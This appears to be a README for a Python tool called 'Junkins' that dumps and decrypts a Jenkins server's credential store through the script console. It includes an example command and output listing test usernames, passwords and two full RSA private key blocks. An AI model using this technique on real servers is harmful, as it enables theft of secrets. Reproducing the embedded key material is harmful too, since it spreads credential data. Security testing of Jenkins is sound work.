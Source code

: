 ### Junkins

I created this script to automate my Jenkins server credential store decryption. By default Jenkins credentials are encrypted, but the encryption key is stored locally on the server. This allows anyone with script interface access to decrypt any secret stored on the server. 

### Files

- `junkins.py`: This is the script itself.
- `postdata`: This file contains the Jenkins groovy script.

### Required

Posting the groovy script requires the 'requests' Python library.

### TODO

- [ ] Add CSRF 'Crumb' support.
- [ ] Add proxy server command line argument support.
- [x] Add support to automate the creation of the `postdata` file.
- [x] Parse command output from Jenkins server with BeautifulSoup.

### Example output:

```
python junkins.py http://jenkins-server/scriptText/
Credentials store dump:

username: testuser
password: testpassword

username: testuser_key
privatekey:
-----BEGIN RSA PRlVATE KEY-----
MIIEpAIBAAKCAQEAyLN2P5iv1gc7y3O0h1QsBlCpj0W+HQFJsfQC3b7m6j28ZHS7
QfUDGwya1Wx8dlCvTckwwzX+Bg26G7F6C9GQmSXgYF+dlsKgSnUp/60AcXdzaSyE
u5rqExFOdzd6kd2gbE1wwK0lg6iFObdiuJM3B5WYDSYc9KeopP0ve17nszrpEuNq
G8GXqeZu9Fq9QgibDhAQ3I/N0EDqf4dHv5PhLSinP2zmmyKSrHMmUIW0rpxUaU1o
f7FR1X8U/BTeBPyodAGnE2PHkdzCGYfOTl/PqNcATGHejYxwMaUKDaliNql9duuL
vNs9djI8PEEMYmuoKZ/HN9rMGFrG+mt7RgD0nwIDAQABAoIBAD9sJsP2FirGYmjq
iXPyb28Xcl2qJme4DnfDqlw0hXgkRjJgiQRQzshvdUZYYARrftpP567okvuKvvMd
ZHnzoYQj6gHKdVw86LZezATVwLwaiUgFH3TBgZLA91DJIVyS8q0G08ivbplqWZ9h
ijrVmqA077XIA4J0sOBieey8ku+Z8FaarWdB/7g1AQslYT+Y3b0j6AWeIar82gXQ
rAF8NCugUPwSBnfUbvQtbLCaLP8uV2VqXppWhVgOQ29ynAeUgjGqxprL279/ZI0B
vRljoSp8ikQT+5jOW4RDEY0o2xGmh54R4QoG7Ob9DVRx/8HwiO25/1ls/jcy8GYs
sZGr6WECgYEA966kc2F24UUUdFcYdx4ecn7qZkxkwynm6p9Xg7FxvLRSNKnJU1xH
d/4JdrogsYxAY+EOvvvk85rCA9/Y1ZPn9WW4nPBl0pjaEyEQN1VUBqlznv6Bk3JL
00//CsPP4JMUTfn7bn90WYqlvuje0jqQdlIruj/ePca2xHs7Rn0+MrcCgYEAz3Dq
fMXrMquqYgz/qsXekmU/Q6Zd7dWdQa2rk96QoYURuWjHtm1fSPQ5XiCB95J1Xyry
DB+iWBEDFjs8XF8s2yDp+pEf2DQug/+IvukEVjwozbQ/k84ehEZo1h94cZAuQCsQ
UFFBILakvN5OcmAFlTKRj67b5vI5CoSQdBf6RVkCgYAh1fjfTkxIQACoWBGejD3K
lG3/JaaKRtol6TiyY/ZOui+UxDEdsziMOuceEhVPTAKr4l36Vz0Sz3x8zQK5Qqho
jMnonqq6V2lLPbQSaxS8iD+kU85tzypuproHxXJLkqwubt0bXkwNw3QbHYL7I0cC
8vzIR9tbgx8Kvm79lTR/BwKBgQCuKWBF16mLRkNrxPwWdcBTavv9oT01RGaeUOA/
6tnFMkLaRtV+HT+lsZ5En8hegjFW8Gh9s0WK6OWNkbgw2ZuAcpbfT17MF6uCGVXG
6z4/5IxhgFbskl5esfqs44ks119tcnpk5INoos+W3pJARswJIobBeo6XzIAFi5z4
S3VNKQKBgQCmm9wva5lY6nynj7iAlg0z44xZ2wcEARmEXnSbUjaBJ0s+VjyCnE1V
t34ay3A3Et8ZO6cx57NlWPZ9sYqZ6J+9IcfshGRWb3W5tFWZ7LXmmOhX1+KVmIjY
dYfxSwlUmnNIye2s9FA1wCxQYvfD/D4+YGjBuFsnUPwlhhUqC6QSEg==
-----END RSA PRlVATE KEY-----


username: testuser_key_withpassphrase
passphrase: testpassphrase

privatekey:
-----BEGIN RSA PRlVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,ECF34585F755D68F9111EEFABA777921

B8BJrH0tIFJQS26Q7DGluZwfzPB17YDl5pNvHMxoNITtmJn3xtNZQ+t68Qz61Qu1
R/MyKhCQFo3Oc8Z5TXDH6ZuUQWpQA7Uy7D4qdchCQdTi/nqnIfQ2jTMweSLsa0/f
XcKimsh23ldGnT9vu7b21PDms2RFJlEJNFPH6lqSYU0LScyZF/m3EOspQKqus3Gd
JjEB6Aw3VrlVj0Fl8MRpbVsOReILLby6+UgpoHScSrOtp4wHLL5sLhqEhg4X6azn
JqDjhcSMKUklPQS2B1dVSgSYderNuR6C8nV5D7vRkUvHZZth47PTtXQbKi7tXbpj
o/4s9N0tpaqfQIDFvYHuVncDbatENj8EAKiW/VqfQAIbh9ibPYFTu1/Gy9iv5HoL
1qujx7gxX1qt88fF4kwLffBi4V850qpR/SxdLh/2tOU6DbyybEf+W4XAEZG+ruKL
PaGjw3EYG34KYFELp0UxC5++vRkB9aaNx1htaFDGhEnYRAzWtd4Ew/Jgxp0y1BRz
JxjQIYMazDvz/h+MVoQIR5ThOEb8iXxnSiDtVcvJiBRMFXIuUmmYnkdA/77nzWNW
pZK5xyjLnRbcAvrFfT6vBixRGIOUODZCcI6aWeY+wgpHxgHXvIHk7D3nuAXTKJ1p
L2Jx8p28qIeMNv3wyuTV1qs2CTabiMDN2fOWRCHYa53vmN1BWV6g8xG52ycJEHEc
8xzNcv5uKriEoBxMWQccKoCHsYbssedXKkvgXswHvbYHHMRX85hc5qwrMbp+/GKo
Rk1+hNIDBJ2jzYiQd34NwQmDiiB0afcETMTtosIjY0fLnz0axpt3rfXM6QaEe2RT
JCAmpsR00Nc0H17ECqt2DP88nmkqKpjY2LWt8yqQzPZipV9TAsFuAxsna46ObTB/
N32+xhq9IKrZVLd2ogeyH+uH8aESmM//xVRNKRAaFFgBgs/idvVrnbhjRxcTFx30
mG+aYDviUH9GOsFkyCXAJ2PHPDIF5ExQAEtZUCQHDcu+JZWuh/nSzgXYLKyeywZU
Jjs9QEEIJeykOaLFdjAwZ98K6oWIvr5WA+QeCGmINP3ycMImEcTl23Ky+5EGHkPc
vwu8jbHdHrF2uxYHCYJfJrMAHxPL9QMP5oxsJ1GWq4VlQI4A6BDyh+jvJrjKoFQx
FfTKupjl9PykvslzACgyV6Zmg8wY+xL0urH2udj4lkXTk7yX9SGf7qxFcuVCcxDs
2dycISkD53TkejBic72zuk6OQcVIdqLaMlXAnWSCFvJTew2rXTHqPTw88sAeZI6M
Nfr0XO7NseW0vdtg/Gdwo4YwzOhF0pR52Xr1mTGyhX5p4/FkRbVyDAvBwvpCd7Ep
vDVcMi+vpS2UVSpbJ5Kb083B6QGHpdAPTP1ye+HhRyYSBna4lcVz4KaDxkefZa/G
lP1pL1BmeOZo9DexOiCqgi8uv/I4YDqIHilL9wuxqZWZUeNCZ+IFV4iOHQcBgKVr
gT2YSW6cm7oTbWBb8rxMoLlHwMAUNM8siO64HhwB8EHEyFWaxY3J+i5V0gZyqUOS
p/NsjfyK5g5XoPXaVUv8uPOGQPL/nM1Nt8EwYB2DEbhCBifUKWK9gL4kRvbgFQcY
-----END RSA PRlVATE KEY-----
```
